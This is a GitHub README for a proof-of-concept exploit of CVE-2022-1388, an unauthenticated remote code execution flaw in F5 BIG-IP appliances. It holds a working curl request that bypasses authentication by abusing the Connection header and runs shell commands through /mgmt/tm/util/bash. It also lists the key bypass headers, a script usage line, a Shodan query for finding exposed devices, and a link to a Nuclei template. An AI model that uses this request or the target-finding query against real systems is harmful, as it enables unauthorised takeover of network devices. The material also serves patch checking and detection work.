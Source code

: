 # CVE-2022-1388
F5 BIG-IP Unauthenticated RCE   
&nbsp;

## Usage
```bash
python3 CVE-2022-1388.py -t 192.168.0.221 -c id
```
&nbsp;

## POC:
Use following POST request to execute ```id``` command.
```
curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Connection: keep-alive, X-F5-Auth-Token' -H $'Authorization: Basic YWRtaW46' -H $'X-F5-Auth-Token: a' -H $'Content-Length: 39' \
    --data-binary $'{\"command\":\"run\",\"utilCmdArgs\":\"-c id\"}' \
    $'https://IP_HERE/mgmt/tm/util/bash'
 ```
 ![poc](./poc.png)
&nbsp;
Key Points:
```
URL: /mgmt/tm/util/bash
Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token: anything
```
&nbsp;
## Shodan Query:
```
http.title:"BIG-IP&reg;-+Redirect" +"Server" 
```
&nbsp;

## Nuclei Template:
[CVE-2022-1388.yaml](./CVE-2022-1388.yaml)
</br>&nbsp;

## Credit
[AnnaViolet20](https://twitter.com/AnnaViolet20/status/1523564632140509184?s=20&t=dA5mPYazYHS6MuaFAaRvCw)'s tweet.</br>
[numanturle](https://github.com/numanturle/CVE-2022-1388)'s github page.</br>
[jas502n](https://twitter.com/jas502n/status/1523611433938059265)' tweet.</br>
[horizon3ai](https://github.com/horizon3ai/CVE-2022-1388)'s github page.
